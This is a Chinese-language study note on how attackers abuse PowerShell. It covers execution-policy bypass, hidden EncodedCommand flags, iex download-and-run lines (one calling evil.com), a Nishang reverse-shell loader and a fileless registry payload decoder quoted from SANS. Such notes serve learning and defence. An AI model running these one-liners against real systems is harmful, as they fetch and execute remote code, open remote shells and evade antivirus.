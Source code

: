 ## 🔍 PowerShell 是什麼？

- PowerShell 是基於 .NET Framework 的命令列 shell 與腳本語言。
    
- 用於系統管理與自動化，但也常被攻擊者當作滲透利器。
    
- Windows 7 SP1 起預設安裝，廣泛存在於各種 Windows 作業系統中。
    

---

## 💡 介面類型

1. **CLI**：`powershell.exe`
    
2. **GUI**：`PowerShell_ISE.exe`（整合式腳本環境）

---
## 📜 PowerShell 基礎語法回顧

### ▪ Cmdlet 命名格式

- 標準格式為：`動詞-名詞`（Verb-Noun）
    
    - 例：`Get-Service`, `Start-Process`
        

### ▪ 常見參數

- `-WhatIf`：模擬執行但不實際執行
    
- `-Force`：強制執行操作
    
- `-ComputerName`：遠端操作
    
- `-Identity`：指定目標對象
    

### ▪ 查詢說明

- `Get-Help <Cmdlet>`（加上 `-Full` 或 `-Examples` 查看完整用法）
    

---
## 🛠️ 攻擊者常見用途

### 1. 在記憶體中執行（Memory-only）

- 利用 `Invoke-Expression`（`iex`）直接執行 payload，不落地檔案，**避開防毒偵測**。

### 2. 遠端下載與執行

- 範例：
    
```
iex (New-Object Net.WebClient).DownloadString("http://evil.com/payload.ps1")
```
    

### 3. 呼叫 Windows API & .NET Code

- 如匯入 `System.Management.Automation.dll` 來建立複雜功能。

---
## 🚫 執行政策與繞過方法

### PowerShell 執行政策（Execution Policy）

|模式|說明|
|---|---|
|`Restricted`（預設）|禁止所有腳本執行|
|`AllSigned`|僅允許簽章過的腳本|
|`RemoteSigned`|本機腳本允許，遠端腳本需簽章|
|`Unrestricted`|允許執行所有腳本，彈出警告|
|`Bypass`|無限制、無提示|

### 修改方式：

`Set-ExecutionPolicy Unrestricted`

### 一次性繞過（不需改變全局設定）：

`powershell.exe -ExecutionPolicy Bypass -File script.ps1`

---

## 🎭 混淆與反偵測技巧

### ▪ Base64 編碼執行（EncodedCommand）

- 攻擊者將 payload 編碼成 Base64 並傳入 `EncodedCommand`
    
- 範例：
    
    `powershell.exe -WindowStyle Hidden -NoProfile -EncodedCommand <Base64Payload>`
    

### ▪ 常見參數組合

`powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -EncodedCommand ...`

---
## 💥 進階攻擊範例

### ▪ 使用 `iex` 建立 Reverse Shell

#### 📡 HTTP：

```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1')
```

#### 📡 TCP、ICMP、UDP、HTTPS

Nishang 提供多種 Shell 模組：

- `Invoke-PowerShellTcp`
- `Invoke-PowerShellUdp`
- `Invoke-PowerShellIcmp`
- `Invoke-PoshRatHttps`

Nishang GitHub： 👉 [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

---

## 🧬 Fileless PowerShell 攻擊

### Registry-based 載入攻擊

將 base64 編碼的惡意腳本寫入 Registry，再以 PowerShell 解碼執行：

```
powershell.exe -windowstyle hidden -noprofile -executionpolicy bypass iex( 
	[Text.Encoding]::ASCII.GetString(
		[Convert]::FromBase64String(
			(gp 'HKCU:\Software\Classes\UBZZXDJZAOGD').XLQWFZRMYEZV
		)   
	) 
)
```

- 範例來源：[https://isc.sans.edu/diary/Powershell+Malware+No+Hard+drive+Just+hard+times/20823](https://isc.sans.edu/diary/Powershell+Malware+No+Hard+drive+Just+hard+times/20823)
